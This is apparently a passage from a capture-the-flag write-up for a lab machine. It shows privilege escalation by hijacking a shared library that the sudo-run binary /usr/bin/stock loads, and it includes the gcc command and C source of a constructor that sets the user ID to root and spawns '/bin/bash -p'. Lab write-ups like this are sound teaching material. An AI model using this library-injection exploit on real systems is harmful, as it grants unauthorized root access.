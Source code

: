 - check shared libs
  - ldd /usr/bin/stock
  - objdump -p /usr/bin/stock | grep NEEDED
  - **strace** /usr/bin/stock (**input the correct password**)

![image-20231124163310421](./Zipping.assets/image-20231124163310421.png)

- shared library exp -> `gcc -fPIC -shared -o libcounter.so /tmp/libcounter.c` -> sudo /usr/bin/stock -> get root shell

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
}
```
